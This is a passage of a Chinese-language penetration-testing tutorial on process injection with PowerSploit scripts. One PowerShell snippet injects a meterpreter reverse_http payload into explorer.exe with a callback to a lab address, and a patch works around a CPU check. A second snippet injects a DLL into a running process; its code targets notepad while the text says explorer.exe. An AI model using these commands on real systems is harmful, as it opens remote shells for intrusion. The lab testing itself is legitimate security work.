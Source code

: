 1、通过powershell向其他进程注入shellcode
------------------------------

**测试6：**

```
> 通过powershell向explorer.exe注入meterpreter

```

在Invoke--Shellcode.ps1尾部添加如下代码，保存为6-Process Injection-Shellcode.ps1

```
$Proc = Get-Process explorer
Invoke-Shellcode -ProcessId $Proc.Id -Payload windows/meterpreter/reverse_http -Lhost 192.168.16.245 -Lport 8083 -Verbose

```

在win7 x86下执行报错，如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/f6bc4a9c6e807ead7333ee9043cacd347439bb99.jpg)

通过阅读代码找到错误原因，需要手动指定系统判断，因此需要在337行添加`$64bitCPU = $false`

再次运行，解决问题，meterpreter成功注入到explorer.exe中，如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/fd61a63d782688358785ddf4efb1b46bfbf43530.jpg)

win7 x64成功，略。  
win8 x86成功，略。  
win8 x64成功，略。

2、通过powershell向其他进程注入dll
------------------------

参考地址：  
[https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-DllInjection.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-DllInjection.ps1)

**测试7：**

```
> 通过powershell向explorer.exe注入DemoDLL.dll

```

在Invoke-DllInjection.ps1尾部添加如下代码，保存为7-Process Injection-dll.ps1

```
$Proc = Get-Process notepad
Invoke-DllInjection -ProcessId $Proc.Id -Dll DemoDLL.dll

```

将DemoDLL.dll注入explorer.exe，成功，删除DemoDLL.dll提示已在记事本中打开，如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/0e42cefbedf4e44badf53a33b8da3f7c90f20700.jpg)
